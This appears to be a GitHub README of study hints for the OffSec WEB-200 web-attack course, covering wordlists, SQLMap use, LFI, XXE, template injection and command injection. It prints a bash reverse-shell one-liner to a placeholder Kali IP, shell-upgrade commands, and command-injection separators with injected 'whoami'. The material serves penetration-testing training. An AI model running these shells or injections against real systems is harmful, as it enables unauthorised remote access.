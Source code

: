 # Syllabus Related Hints
In this section I will pick a few topics out of the syllabus and give some technical hints. If you want me to give hints for other topics, create an issue. It is important to understand that my hints only make sense if you carefully read and complete the course material. **All links and hints I provide to external resources should be considered as additional literature which are no replacement for the material provided by offsec. The offsec course material is gold imho.**

## Tools
### Wordlists
Beside the standard Kali linux wordlists located under `/usr/share/wordlists` I think the seclists package is a premium set of wordlists which fits most needs. Especially it has lists connected to certain vulnerabilities like SQL-Injection, Local File Inclusion, 
Server-side Template Injection and so on which comes in handy for several topics of the web-200 course.
```bash
sudo apt-get install -y seclists
cd /usr/share/seclists/
```

### Shells
During the course and the exam you will have to identify/exploit different kind of vulnerabilities which might lead to some kind of remote code execution. Therefore it is always useful to get a reverse shell connecting to your kali machine instead of exploiting the 
vulnerability again and agin. For me in most cases the standard `bash` back connect shell worked great (under linux of course)
```bash
bash -c 'bash -i >& /dev/tcp/<KALI-IP>/9090 0>&1'
```

Sometimes it is useful to upgrade this shell to a fully interactive one

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```
CTRL+Z
```bash
stty raw -echo; fg
```
Now you should have a fully interactive shell. This sometimes is needed when you do some kind of privilege escalation stuff. (not part of web-200)

## SQL-Injection
- `seclists` has awesome wordlists to manually detect SQL injection vulnerabilities using tools like `wfuzz` or `burpsuite`: `/usr/share/seclists/SQLi`
- one word regarding `SQLMap`: this tool is allowed during the exam
- however, in my experience `SQLMap` often fails even if there is an SQL-Injection
- I usually use `SQLMap` only after I identified the vulnerability manually and only use it to exfiltrate data when manual exfiltration is to expensive
- therefore I parameterize `SQLMap` in a way it does not send useless requests to the target, because the tool is noisy as hell and (depending on the configuration) influences the integrity of the database
- when you identified an injection it is cruical that you have a good cheat sheet available, so you can exfiltrate data in a copy paste style
  - https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
  - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
  - https://portswigger.net/web-security/sql-injection/cheat-sheet

## Directory Traversal and Local File Inclusion
- general test cases: https://zsahi.wordpress.com/2018/09/10/file-inclusion/
- useful wordlists to combine with `wfuzz` or `burpsuite`: `/usr/share/seclists/Fuzzing/LFI/`

## XML External Entity Attack
- often overlooked
- know how to idenfitiy this kind of vulnerability
- every point where the application might parse XML is a potential dangerous sink where you can test for it
- get used to how to read files by exploiting an XXE attack "visibly" and blind
  - https://portswigger.net/web-security/xxe
  - https://portswigger.net/web-security/xxe/blind

## Server-side Template Injection
### identify
- often overlooked
- identifying is not always easy 
- you need to identify what kind of technology/framework is used on the target machine
- then it is a good idea to perform some basic tests to identify if templates are used at all and the website is vulnerable
- `seclists` provides a good wordlist to detect SSTIs: `/usr/share/seclists/Fuzzing/template-engines-expressions.txt`
- the following picture gives an overview what template engine might be in use if a certain test succeeded: https://portswigger.net/web-security/images/template-decision-tree.png

### exploit
- the exploitation impact ranges from XSS to RCE depending on the template engine used
- RCEs for apache freemarker, twig and pug/jade: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

## Command Injection
Try to think what the target application might do in the backend when using features of the website. Does the web application maybe call an external program? When you identified a potential injection point you usually have to escape from the original command and inject your own.

### Command Seperators
- `&`
- `&&`
- `|`
- `||`
- `;` (no Windows CMD)
- `0x0a` (no Windows CMD)
- `\n` (no Windows CMD)
- ``` `whoami` ``` (no Windows CMD)
- `$(whoami)` (no Windows CMD)

### Good Reads
- https://www.hackedu.com/blog/owasp-top-10-mini-series-command-injection
- https://book.hacktricks.xyz/pentesting-web/command-injection

